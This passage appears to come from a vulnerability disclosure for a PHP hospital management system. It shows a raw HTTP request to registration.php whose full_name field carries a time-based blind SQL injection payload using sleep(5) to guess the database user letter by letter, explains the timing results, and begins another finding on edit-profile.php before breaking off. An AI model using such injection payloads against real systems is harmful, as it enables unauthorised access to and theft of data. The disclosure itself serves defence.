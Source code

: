 ```
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Referer: http://127.0.0.1:8009/hms/registration.php
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=vn7s77l28he51c598cvhbl5un2

full_name=aaa',if(substring((select user() limit 0,1),1,1)='r',sleep(5),1),2,3,4,5)#&address=bbb&city=ccc&gender=female&email=1%402sq.com&password=a123123&password_again=a123123&submit=
```
The first letter of the current database user(root) obtained through SQL injection is 'r', and the query result is correct, so the request is delayed about 5 seconds:

![8.png](./img/8.png)

If you query the following statement:
```
full_name=aaa',if(substring((select user() limit 0,1),1,1)='b',sleep(5),1),2,3,4,5)#&address=bbb&city=ccc&gender=female&email=1%402sq.com&password=a123123&password_again=a123123&submit=
```
Through SQL injection to guess the first letter of the current database user(root) is 'b', the query result is wrong, so the request will not be delayed for 5 seconds:

![9.png](./img/9.png)


**[4]**

In \hms\edit-profile.php:

![10.png](./img/10.png)

Line 6 uses the check_login function to verify that the user is logged in. In this function:

![11.png](./img/11.png)
